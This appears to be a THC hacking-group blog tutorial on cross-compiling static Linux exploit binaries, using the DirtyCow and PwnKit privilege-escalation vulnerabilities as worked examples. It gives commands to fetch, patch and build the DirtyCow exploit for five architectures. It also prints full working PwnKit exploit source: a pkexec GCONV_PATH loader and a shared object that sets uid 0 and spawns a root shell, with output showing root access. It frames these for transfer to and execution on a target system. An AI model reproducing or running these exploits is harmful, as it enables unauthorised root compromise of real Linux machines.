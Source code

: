 
**TL;DR**: Use docker with the [muslcc toolchain](https://hub.docker.com/r/muslcc/x86_64/tags) and _gcc -static_.

It is not always possible to compile an exploit on the target system. Here at THC we use various methods to cross-compile static Linux binaries. I'll explain some of our methods in this article.

Let's compile the exploit for [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195) to run on Raspberry PI Linux (armv6l) while our workstation is MacOS (x86_64).

The vulnerability is a local privilege escalation in Linux Kernel <4.8.3.

## Using muslcc toolchain

The musl libc is a C standard library just like GNU's libc. It's smaller, cleaner and easier to handle.

The fine folks at https://musl.cc/ maintain cross-compiler toolchains against libmusl for many different architectures.

These toolchains can be used to generate a (static) Linux binary for a different architecture than the architecture used for compiling the exploit (x86_64):

Firstly, there is a bug in the reference exploit. Let's fix this first:
```shell
mkdir thc; cd thc
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
sed  -i 'sX.*= copy_file.*Xint ret = system("cp /etc/passwd /tmp/passwd.bak");X' dirty.c
```

Next: Compile dirt.c for Linux for armv6 architecture on our MacOS (x84_64):
```shell
docker run --rm -v $(pwd):/src -w /src muslcc/x86_64:armv6-linux-musleabi sh -c "gcc -pthread dirty.c -o dirty-exp -lcrypt -static"
```

The newly created `./dirty-exp` binary will execute on a Raspberry Pi Linux (armv6l).

## Cross Compiling for 5 architectures

Let's script this and compile for 5 different architectures:
```shell
for arch in aarch64-linux-musl armv6-linux-musleabi mips-linux-muslsf mips64-linux-musl x86_64-linux-musl; do
   docker run --rm -v $(pwd):/src -w /src muslcc/x86_64:${arch} sh -c "gcc -pthread dirty.c -o dirty-exp.${arch} -lcrypt -static"
done
```

Most architectures are _downward compatible_. This means an exploit compiled for arm6 will run fine on arm7 metal. Equally an exploit compiled for i386 (from the 90s) will run fine on x86_64 metal, albeit slow.

```console
$ ls -al dirty-exp.*
-rwxr-xr-x 1 0 0 170664 Aug 30 14:06 dirty-exp.aarch64-linux-musl
-rwxr-xr-x 1 0 0 119280 Aug 30 14:06 dirty-exp.armv6-linux-musleabi
-rwxr-xr-x 1 0 0 210384 Aug 30 14:06 dirty-exp.mips64-linux-musl
-rwxr-xr-x 1 0 0 210692 Aug 30 14:06 dirty-exp.mips-linux-muslsf
-rwxr-xr-x 1 0 0  88312 Aug 30 14:06 dirty-exp.x86_64-linux-musl
```

All binaries are static binaries. They run on any Linux system regardless of the distribution or Linux flavour (as long as the architecture matches).

## Statically compiling with other libraries

Some exploits need additional libraries to compile or have more complex compilation instructions. Let's pick the OpenSSL library as a worst case scenario: A huge and complex library. We use the dirt.c source again even that it does not depend on or need OpenSSL.

Let's start an interactive (_-it_) muslcc docker shell, download and compile OpenSSL and then compile the exploit for ARM6:

```shell
docker run --rm -v $(pwd):/src -w /src -it muslcc/x86_64:armv6-linux-musleabi
apk update \
&& apk add --no-cache bash perl make curl \
&& rm -rf /var/cache/apk/* \
&& curl https://www.openssl.org/source/openssl-1.1.1k.tar.gz | tar -xz \
&& mkdir usr \
&& cd openssl-1.1.1k \
&& ./Configure --prefix=/src/usr no-tests no-dso no-threads no-shared linux-generic64 \
&& make install_sw \
&& cd .. \
&& gcc -I/src/usr/include -L/src/usr/lib -pthread dirty.c -o dirty-exp -lcrypt -lcrypto -lssl -static
```

## Exploits that need .so files

Some exploits can not be compiled statically.

For example: Exploits that are shared object .so files and which the vulnerable program needs to load during runtime. It is not possible to cross-compile them: The .so files heavily depend on the Application Binary Interface (ABI) of the target system.

The ABI is the reason why you can not just execute a (dynamic) binary from a libmusl system on a libc system or vice versa.

It's easier to find a system that is similar to the target system and compile there.

### Targeting aarch64

The assumption is that it is not possible to compile the exploit on the target system. Instead we use a system with the same architecture and where the Linux flavour is a close match to the target system (a matching libc version often is what matters most).

AWS has a good selection Linux flavours (Ubuntu, Red Hat, SuSE and Debian) and supports x86_64, aarch64/ARM64 and some wilder architectures. It is free to spin up a t2.nano instance on (for example) aarch64 architecture use that system to compile the exploit. THC also runs a private lab with various other architectures and Unix flavours.

### Compiling [CVE-2021-4034] for aarch64

A good example is [CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/) also known as polkit/pkexec exploit. The exploit compiles additional .c files during runtime _and_ the vulnerable program needs to load the newly compiled .so file.

There are better exploits but the reference exploit [cve-2021-4034-poc.c](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c) is just perfect for what we like to showcase.

We need to modify the original exploit in two ways:
1. Split it into two separate .c files.
1. Modify the source to copy the pre-compiled .so file instead of compiling it at runtime.

thc-polkit.c
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	system("cp pwnkit.so pwnkit/pwnkit.so");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

pwnkit.c
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void gconv() {}
void gconv_init() {
	setuid(0); setgid(0);
	seteuid(0); setegid(0);
	system("export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh");
}
```

Compile both source files:
```shell
gcc pwnkit.c -o pwnkit.so -shared -fPIC
gcc thc-polkit.c -o thc-polkit -static
```

Transfer `thc-polkit` and `pwnkit.so` to the target system and execute:
```console
$ ./thc-polkit
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

